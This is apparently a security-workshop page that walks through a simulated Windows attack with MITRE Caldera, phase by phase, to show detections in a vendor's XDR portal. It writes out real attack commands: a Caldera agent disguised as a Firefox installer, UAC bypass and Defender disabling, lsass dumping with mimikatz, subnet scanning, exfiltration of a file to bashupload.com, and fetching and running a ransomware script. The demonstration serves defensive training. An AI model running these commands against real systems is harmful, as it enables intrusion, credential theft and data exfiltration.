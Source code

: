 ```yaml
---
title: "Windows"
chapter: false
weight: 41
pre: "<b>4.1 </b>"
---
```



### ATT&CK Phases
#### Reconnaissance
This step was skipped because we already know the target of our attack (Windows Instances)

---
#### Resource Development
In this demo, we are going to use Mitre Caldera as our attacking tool.

CALDERA™ is a cybersecurity framework developed by MITRE that empowers cyber practitioners to save time, money, and energy through automated security assessments.

We are using Caldera as one of the tools to help us evaluate how Cloud One Workload Security and Vision One could empower companies to improve their security posture and risk management.

- Mitre Caldera - Pre-Configuration

Before you start with the attack simulation, be sure you updated the Mitre Caldera Global Configurations.
You must replace the IP Address (0.0.0.0) with the Public IP Address you are using to access the Mitre Caldera management console.

{{< youtube id="9X5A4A54ZHI" >}}

---
#### Initial Access and Execution
In this step you are going to create a malicious payload (Windows Based), packing it into an executable file (that simulates the Mozilla Firefox Installation), and then uploading it to filebin.net. The output URL will be used to drop this 0-day malware to the target Windows Computer.

You can generate the Caldera Agent manually, or copy and paste the following script on the https://ps2exe.azurewebsites.net/ website. Just make sure you replaced the $server variable with the Caldera Public IP Address. Save the file generated as Firefox.exe. 

<b>Windows Payload - Add the following code on top of the Caldera Payload</b>

- Invoke-WebRequest -Uri "https://download.mozilla.org/?product=firefox-51.0.1-SSL&os=win64&lang=en-US" -OutFile c:\firefox.exe;
- Start-Process -FilePath c:\firefox.exe -Args "/s" -Verb RunAs -Wait;

<b>After you export the file, upload it to filebin.net and take a note of the output url.</b>

References:

- PS1toEXE - https://ps2exe.azurewebsites.net/
- Online Storage - https://filebin.net/

{{< youtube id="Fvo7lh-mYDA" >}}


---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="tZk7Xs7n7tE" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002) - Set a registry key to allow UAC bypass". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="ehafYxLNmoI" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

{{< youtube id="-YbaI1s7v2s" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz". You may find sensitive information with this technique.

After you run the initial command, run also the following instructions (available on the Mitre Caldera "Potential Links" menu).

- PowerShell Invoke MimiKats

- Powerkatz (Staged)	

{{< youtube id="gwi4jE8BLUk" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Collect ARP details (T1018)" and "Find System Network Connections (T1049) - Find System Network Connections".

As result of the previous command, you will find active connections on the network 10.0.10.*. With this information, you can execute the following commands to find other active hosts running on the same subnet.

- Invoke-WebRequest -Uri https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4NetworkScanner/main/Scripts/IPv4NetworkScan.ps1 -OutFile C:\Users\Public\IPv4NetworkScan.ps1;
- powershell C:\Users\Public\IPv4NetworkScan.ps1 -IPv4Address 10.0.10.0 -Mask 255.255.255.0 -DisableDNSResolving;
- foreach ($port in 444..3390) {If (($a=Test-NetConnection 10.0.10.12 -Port $port -WarningAction SilentlyContinue).tcpTestSucceeded -eq $true){ "TCP port $port is open!"}}

{{< youtube id="CWmCC_bjaWA" >}}


---
#### Lateral Movement
As a next step of this demo, we are going to do lateral movement and exfiltrate sensitive data from the 10.0.10.12 host.

Then using the Potential Links, select the technique "View remote shares (T1135)", and update it with the 10.0.10.12 IP Address.

{{< youtube id="lErMomcmH_0" >}}

---
#### Command & Control
The target computer is already being controlled by the attacker/c&c server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.
 Replace the original directory with c:\confidential, and the content of the folder with *.txt.

- CMD - type c:\confidential\confidential.txt

{{< youtube id="BYGdESV0F7A" >}}

---
#### Exfiltration
Now that we have access to the secondary server, its time to exfiltrate the sensitive data we found on the confidential directory. Use the following powershell commands to exfiltrate the data to the bashupload website.

- Invoke-WebRequest -Uri https://bashupload.com/ -Method Post -ContentType multipart/form-data  -Body c:\confidential\confidential.txt
- Invoke-RestMethod -Uri https://bashupload.com/ -Method Post -InFile c:\confidential\confidential.txt -UseDefaultCredentials

{{< youtube id="TNuvzg40CEE" >}}

---
#### Impact 1 - (Fake) Ransomware
Now its time to encrypt the affected servers (Target 1).

After having the Risk Control Rule in place, you can execute the following commands.

- PS1 - powershell.exe -command Invoke-WebRequest -Uri https://github.com/andrefernandes86/demo-v1-ransomware/raw/main/download.ps1 -OutFile C:\Users\Public\Ransom.ps1;

- PS1 - powershell.exe -command C:\Users\Public\Ransom.ps1;

{{< youtube id="Jisl28z33U4" >}}

---
## Reviewing the Detections 
Review the Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="7Y8AkK-M2js" >}}
